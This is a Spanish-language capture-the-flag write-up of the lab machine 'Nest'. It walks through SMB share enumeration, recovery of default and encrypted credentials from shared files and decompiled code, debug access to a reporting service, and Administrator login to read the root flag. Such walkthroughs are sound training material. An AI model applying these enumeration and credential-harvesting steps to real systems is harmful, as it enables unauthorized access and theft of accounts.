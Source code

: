 # Nest

## Initial Scan

```
445/tcp  open  microsoft-ds?
4386/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     Reporting Service V1.2
|     Unrecognised command
|   Help: 
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>
```
## Enum 
### SMB 
Listamos los shares
```
smbclient -NL 10.10.10.178

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Data            Disk      
	IPC$            IPC       Remote IPC
	Secure$         Disk      
	Users           Disk   
```

Accedemos a Data
```IT
smbclient  \\\\10.10.10.178\\Data
  IT                                  D        0  Thu Aug  8 00:58:07 2019
  Production                          D        0  Mon Aug  5 23:53:38 2019
  Reports                             D        0  Mon Aug  5 23:53:44 2019
  Shared                              D        0  Wed Aug  7 21:07:51 2019
```
Solo podemos entrar dentro de Shared
```
  Maintenance                         D        0  Wed Aug  7 21:07:32 2019
  Templates                           D        0  Wed Aug  7 21:08:07 2019
```
Dentro de Maintenance encontramos un archivo
```
  Maintenance Alerts.txt              A       48  Tue Aug  6 01:01:44 2019
```
Dentro de Template teambien encontramso cosas, primero dos carpetas
```
  HR                                  D        0  Wed Aug  7 21:08:01 2019
  Marketing                           D        0  Wed Aug  7 21:08:06 2019
```
Dentro de la de HR encontramos un archivo que parece interesante
```
  Welcome Email.txt                   A      425  Thu Aug  8 00:55:36 2019
```
Lo descargamos mediante mget
```
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location: 
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the 
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019
```
Gracias a esto podemos listar varios usuarios
```
  Administrator                       D        0  Fri Aug  9 17:08:23 2019
  C.Smith                             D        0  Sun Jan 26 08:21:44 2020
  L.Frost                             D        0  Thu Aug  8 19:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 19:02:50 2019
  TempUser                            D        0  Thu Aug  8 00:55:56 2019
```
Tambien podemso descargar mas archivos de la carpeta de IT dentro de data y un documento de texto de Users/TempUser

Dentro de IT encontramos un archivo llamado RU_config.xml con credenciales
```
  <Username>c.smith</Username>C
```
En el notepadplusplus vemos que se ha accedido al siguiente archivo
```
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
```
Veamos si podemos acceder a la carpeta de Carl dentro de IT y sacamos varios archivos .vb , reverseandolos un poco encotramos que module.vb usa utils.vb para desencriptar la conntraseña 
```
Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
```
Con esto podemos ver que la contraseña encriptada era: **xRxRxPANCAK3SxRxRx**, esto nos permite acceder a la carpeta de C.Smith y descargarnos su contenido usando de nuevo smbget
```
smbget -rR smb://10.10.10.178/Users/C.Smith -U C.Smith
smb://10.10.10.178/Users/C.Smith/HQK Reporting/AD Integration Module/HqkLdap.exe                                                                   
smb://10.10.10.178/Users/C.Smith/HQK Reporting/Debug Mode Password.txt                                                                             
smb://10.10.10.178/Users/C.Smith/HQK Reporting/HQK_Config_Backup.xml                                                                               
smb://10.10.10.178/Users/C.Smith/user.txt 
```
## Privesc
En el debug mode password.txt encontramos lo siguiente
```
WBQ201953D8w
```
Esta contraseñas puede ser usada en el otro servicio de la maquina para activar el debug mode que ofrece features extra
```
telnet 10.10.10.178 4386
>DEBUG WBQ201953D8w
>setdir ..

Current directory set to HQK
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml
>setdir LDAP
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf
>showquery 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```
Analizando el .exe que tiene al lado vemos que posee la siguiente instrucción
```.NET
Decrypt(EncryptedString, "667912", "1313Rf99", 3,"1L1SA61493DRV53Z", 256);
```
Si se aplica a la Password tenemos una password legible: **XtH4nkS4Pl4y1nGX**
```
 smbclient  \\\\10.10.10.178\\C$ -U Administrator
smb: \> cd Users\Administrator\Desktop\
smb: \Users\Administrator\Desktop\> dir
    desktop.ini                       AHS      282  Sat Jan 25 23:02:44 2020
    root.txt                            A       32  Tue Aug  6 00:27:26 2019
smb: \Users\Administrator\Desktop\> mget root.txt
```

